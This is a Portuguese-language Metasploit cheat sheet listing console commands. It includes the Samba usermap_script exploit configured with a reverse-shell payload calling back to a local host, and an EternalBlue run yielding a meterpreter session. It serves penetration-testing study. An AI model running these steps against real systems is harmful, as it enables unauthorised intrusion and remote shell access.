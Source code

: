 # Comandos básicos do Metasploit-Framework

$searchsploit <name service> [smb, dns, http, smtp, ftp, Apache, ProFTPd, vsftpd, etc]

## Diretório do Metasploit-Framework

$ls -l /usr/share/metasploit-framework

## Run Metasploit-Framework

$sudo service postgresql start

$sudo msfdb init

$sudo msfconsole

msf > db_status

msf > help

msf > help search

msf > history

msf > show [auxiliary, exploits, payloads, options, targets, advanced, encoders, nops]

msf > search scanner

msf > search name:mysql

msf > search type:exploit platform:windows

msf > search type:exploit rank:great

msf > search cve:2022 platform:windows type:exploit

msf > grep http search oracle

msf > search type:exploit usermap_script

msf > info exploit/multi/samba/usermap_script

msf > use exploit/multi/samba/usermap_script

msf exploit(multi/samba/usermap_script) > help

msf exploit(multi/samba/usermap_script) > info

msf exploit(multi/samba/usermap_script) > show -h

msf exploit(multi/samba/usermap_script) > show targets

msf exploit(multi/samba/usermap_script) > show options

msf exploit(multi/samba/usermap_script) > show payloads

msf exploit(multi/samba/usermap_script) > set RHOST IP_Address_Target

msf exploit(multi/samba/usermap_script) > set PAYLOAD cmd/unix/reverse

msf exploit(multi/samba/usermap_script) > set LHOST IP_Address_Local_Host

msf exploit(multi/samba/usermap_script) > unset PAYLOAD

msf exploit(multi/samba/usermap_script) > unset all

msf exploit(multi/samba/usermap_script) > run

msf exploit(multi/samba/usermap_script) > back

msf > jobs

msf > kill 0

msf > sessions -l

msf > connect 192.168.1.123 23

msf > exit

## Run Exploit Sessions in Backgroung

msf exploit(windows/smb/ms17_010_eternalblue) > exploit

meterpreter > background

msf exploit(windows/smb/ms17_010_eternalblue) > sessions

msf exploit(windows/smb/ms17_010_eternalblue) > sessiosn -i 1

meterpreter >
